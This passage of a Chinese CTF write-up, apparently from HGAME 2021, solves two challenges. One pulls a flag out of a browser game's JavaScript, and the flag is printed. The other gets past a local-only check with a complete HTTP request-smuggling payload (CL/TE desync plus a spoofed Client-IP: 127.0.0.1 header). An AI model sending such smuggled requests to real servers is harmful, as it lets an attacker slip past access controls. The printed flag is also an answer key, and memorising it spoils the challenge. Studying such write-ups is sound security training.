 经过分析，project.js 是游戏程序

因为题目要求的是分数超过 2000 分给 flag，所以尝试直接搜索 2000，但是没有找到

然后杀去分析了一下游戏结束后会触发哪些函数（挺蠢的，实际上再搜索一下 1999 就直接出答案了）

然后在 2087 行找到这个函数：

![image-20210202030418162](https://i.loli.net/2021/02/02/qPQWuGzOyKYli4U.png)

可以很明显看出这个函数负责 flag

直接把alert复制到控制台运行就行：

![image-20210202030532694](https://i.loli.net/2021/02/02/jxlu12FGbfKvXAq.png)

![image-20210202030542852](https://i.loli.net/2021/02/02/XeVCv8OHEcdpR2A.png)



hgame{do_you_know_cocos_game?}



## 宝藏走私者

这题卡了一天

刚开始请求要求说要本地访问（请求头无 client-ip），但是在请求头添加 client-ip 后发现还是不行，服务器获取到的 client-ip 是我的公网 ip

然后了解到[http走私](https://paper.seebug.org/1048/#511-te-cl)这种操作

用 burpsuite 构造一个 http 请求即可

![image-20210202154227940](https://i.loli.net/2021/02/02/X6o2CUfQ8bTig9A.png)

在发送请求之前记得把自动更新内容长度的勾取消掉

连续多次请求

```
GET /secret HTTP/1.1
Host: 951ec7e5e2.thief.0727.site
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
DNT:1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 5
Transfer-Encoding: chunked

0


GET /secret HTTP/1.1
Client-IP: 127.0.0.1
Host: 951ec7e5e2.thief.0727.site
Connection: close

```
